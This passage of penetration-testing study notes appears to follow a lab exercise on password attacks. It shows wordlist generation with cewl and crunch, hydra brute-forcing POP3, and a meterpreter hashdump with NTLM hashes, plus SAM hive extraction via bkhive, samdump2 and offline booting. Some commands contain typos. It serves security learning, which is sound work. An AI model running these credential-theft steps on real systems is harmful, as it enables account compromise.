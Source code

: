     or
    
    cp id_rsa.pub ~/.ssh/id_rsa.pub
    cp id_rsa ~/.ssh/id_rsa
    ssh-add
    ssh georgia@192.168.20.11
    
Both are equivalent... somewhat...

## Chapter 9 - Password attacks

Most password cracking tools require a "userlist.txt" and a "passwordlist.txt"
There are tools to help you build such lists.

**password cracking**

    # this generates a wordlist via depth 3 of somecompany's website using all words win minimum five chars.
    cewl -w somecompany.txt -d 3 -m 5 www.somecompany.com
    
    # this tool generates a huge password list with the characters you give it
    crunch 7 7 ABV
    AAAAAAA
    AAAAAAB
    AAAAAAC
    ...
    
    #this tool uses a userlist ad passwordlist on pop3 service
    hydra -L userlist.txt -P passwordfile.txt 192.168.20.10 pop3

**password cracking**

meterpreter > hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
georgia:1003:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:df40c521ef762bb7b9767e30ff112a3c:938ce7d211ea733373bcfc3e6fbb3641:::
secret:1004:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:bc48640a0fcb55c6ba1c9955080a52a8:::

**windows password cracking**
Use bkhive and samdump2 to decrypt windows hashes.

    bkhive system xpkey.txt
    samdump2 sam xpkey.txt

**physical access**

    echo "bios.delay = 4000" >> virtualmachine.vmx
    **boot from kali iso**
    root@kali:# umkdir -p /mnt/sda1
    vmount /dev/sda1 /mnt/sda1
    cd /mnt/sda1/Windows/System32/config/
    bkhive SYSTEM out
    samdump2 SAM out 
